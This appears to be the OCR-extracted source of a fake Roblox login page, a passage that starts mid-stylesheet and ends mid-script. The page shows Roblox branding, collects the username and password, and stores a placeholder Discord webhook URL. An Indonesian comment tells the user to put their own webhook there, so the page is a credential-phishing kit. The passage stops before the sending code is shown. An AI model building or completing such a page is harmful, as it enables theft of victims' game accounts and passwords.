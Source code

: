         button:hover {
            background-color: #0088cc;
        }
        
        .footer {
            margin-top: 20px;
            font-size: 12px;
            color: #777;
        }
        
        .error-message {
            color: red;
            font-size: 14px;
            margin-top: 10px;
            display: none;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <img src="https://tr.rbxcdn.com/7d8d06a9b9c8beb9a1a2b5a9f9d8d8d9/420/420/Image/Png" alt="Roblox Logo" class="logo">
        
        <div class="input-group">
            <label for="username">Username</label>
            <input type="text" id="username" placeholder="Username/Email/Phone" required>
        </div>
        
        <div class="input-group">
            <label for="password">Password</label>
            <input type="password" id="password" placeholder="Password" required>
        </div>
        
        <button id="loginButton">Login</button>
        
        <div class="error-message" id="errorMessage">
            Incorrect username or password. Please try again.
        </div>
        
        <div class="footer">
            <a href="#" style="color: #00a2ff;">Forgot password?</a> • <a href="#" style="color: #00a2ff;">Sign up</a>
        </div>
    </div>

    <script>
        document.getElementById('loginButton').addEventListener('click', function() {
            const username = document.getElementById('username').value;
            const password = document.getElementById('password').value;
            
            if (!username || !password) {
                document.getElementById('errorMessage').style.display = 'block';
                return;
            }
            
            // Ganti WEBHOOK_URL_DISCORD dengan webhook Discord Anda
            const webhookUrl = 'WEBHOOK_URL_DISCORD';
            